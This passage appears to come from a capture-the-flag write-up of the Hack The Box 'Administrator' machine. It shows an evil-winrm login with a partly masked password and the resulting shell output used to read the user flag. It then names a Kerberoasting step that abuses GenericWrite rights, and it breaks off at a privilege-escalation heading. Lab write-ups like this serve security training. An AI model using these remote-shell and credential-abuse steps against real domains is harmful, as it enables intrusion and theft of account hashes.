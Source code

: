 # User Flag

Bloodhound confirms that Emily has the ```Remote Management Users``` group, which allows us to access the machine via ```Powershell```, so we use ```Evil-winrm``` to connect and collect the ```user.txt``` flag.
```bash
evil-winrm -i administrator.htb -u emily -p 'UXLCI5iETUsIBo***************'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily\Documents> dir C:\Users\emily\Desktop


    Directory: C:\Users\emily\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/30/2024   2:23 PM           2308 Microsoft Edge.lnk
-ar---         5/27/2025   3:39 PM             34 user.txt
```
# Further Enumeration using Bloodhound

Bloodhound shows that Emily has ```GenericWrite``` permissions on the user ```Ethan```, suggesting to utilize ```targetkerberoast.py``` to retrieve a crackable hash for this user.
![alt text](https://github.com/Kyd0s/Kyd0s.github.io/blob/main/assets/Bloodhound%20Emily-Ethan.png?raw=true)

# Privilege Escalation and Root Flag
